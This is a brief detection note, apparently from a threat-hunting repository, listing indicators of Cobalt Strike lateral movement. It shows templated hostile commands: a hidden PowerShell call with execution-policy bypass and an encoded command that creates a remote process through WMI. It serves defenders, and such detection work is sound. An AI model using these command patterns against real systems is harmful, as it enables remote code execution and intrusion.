

#### IoCs
1. The HostApplication field is set to `powershell -nop -exec Bypass -EncodedCommand <base64-encoded-command>`
2. The base64 encoded command decodes to `Invoke-WMIMethod win32_process -name create -argumentlist '<command>' -ComputerName <target>`


---

**References**
* https://www.youtube.com/watch?v=borfuQGrB8g
* https://www.crowdstrike.com/en-us/blog/getting-the-bacon-from-cobalt-strike-beacon/